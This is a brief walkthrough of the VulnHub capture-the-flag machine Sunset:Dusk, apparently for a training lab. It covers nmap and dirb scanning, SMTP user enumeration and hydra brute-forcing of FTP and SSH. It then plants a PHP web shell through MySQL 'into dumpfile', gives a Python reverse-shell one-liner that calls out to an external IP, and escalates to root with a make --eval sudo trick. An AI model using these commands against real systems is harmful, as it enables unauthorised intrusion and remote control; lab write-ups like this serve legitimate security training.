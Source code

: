 


# Sunset:Dusk Walkthrough 

**VulnHub Link:** [Sunset:Dusk](https://www.vulnhub.com/entry/sunset-dusk,404/)
**Difficulty:** Easy
**Release Date:** 24 Sep 2020

## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.80
```


## 2.Web Enumeration

```bash
dirb http://ip
```

port 25 is open --> └─$ smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/default_users_for_services_unhash.txt -t 192.168.100.80
dusk user found --> brute force to ftp service --> hydra -l dusk -P /usr/share/wordlists/rockyou.txt ftp://192.168.100.80 -I
brute force to ssh service hydra -l dusk -P /usr/share/wordlists/rockyou.txt ssh://192.168.100.80 -I

mysql default password --> password
>>> show databases;
>>> use mysql;
>>> create table <name>(line blob);
>>> insert into <name> values('<?php system($_REQUEST[''cmd'']); ?>');
>>> select '<?php system($_REQUEST[''cmd'']); ?>' from <name> into dumpfile '/var/tmp/shell.php'
in url ---> <ip>:8080/shell.php?cmd=cat /home/dusk/user.txt
python reverse_shell --> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
linpeas downloading

## 3.Privilege Escalation

sudo -u dusk /usr/bin/make -s --eval=$'x:\n\t-'"$COMMAND"
in dusk linpeas
ftp password found
get root.txt
